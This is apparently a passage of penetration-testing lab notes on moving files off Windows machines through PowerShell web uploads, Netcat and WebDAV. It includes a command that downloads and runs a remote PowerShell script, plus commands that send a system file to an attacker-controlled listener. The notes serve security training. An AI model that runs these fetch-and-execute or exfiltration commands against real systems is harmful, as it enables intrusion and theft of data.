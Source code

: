Then decode it in Linux & check the hash.

## PowerShell Web Uploads
1) Install Configured Web Server with Upload
```sh
aaryan11x@htb[/htb]$ pip3 install uploadserver
aaryan11x@htb[/htb]$ python3 -m uploadserver
```

2) Upload file to *Python Upload Server*
```powershell
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\htb> Invoke-FileUpload -Uri http://192.168.1.101:8000/upload -File C:\Windows\System32\drivers\etc\hosts

[+] File Uploaded:  C:\Windows\System32\drivers\etc\hosts
[+] FileHash:  5E7241D66FD77E9E8EA866B6278B2373
```

## PowerShell with Netcat
```sh
# Start Netcat on Linux
nc -lvnp 8000
```

```powershell
# On PowerShell window
PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\htb> Invoke-WebRequest -Uri http://192.168.1.101:8000/ -Method POST -Body $b64
```

Then decode the Base64 string you get on Linux.

## SMB Uploads with WebDAV
**WebDAV** is an extension of HTTP, the internet protocol that web browsers and web servers use to communicate with each other. The WebDAV protocol enables a webserver to *behave like a fileserver*, supporting collaborative content authoring. WebDAV can also use HTTPS.
When you use SMB, it will *first* attempt to *connect using the SMB* protocol, and if there's *no SMB* share *available*, it will try to connect using *HTTP*.

```sh
# Install WebDav Python module
pip install wsgidav cheroot

# Using WebDav Python module
wsgidav --host=0.0.0.0 --port=80 --root=/root/webdav --auth=anonymous
```

Connect to **WebDav** share
```powershell
C:\htb> dir \\192.168.1.101\DavWWWRoot

 Volume in drive \\192.168.1.101\DavWWWRoot has no label.
 Volume Serial Number is 0000-0000

 Directory of \\192.168.1.101\DavWWWRoot

05/18/2022  10:05 AM    <DIR>          .
05/18/2022  10:05 AM    <DIR>          ..
05/18/2022  10:05 AM    <DIR>          sharefolder
05/18/2022  10:05 AM                13 filetest.txt
               1 File(s)             13 bytes
               3 Dir(s)  43,443,318,784 bytes free
```
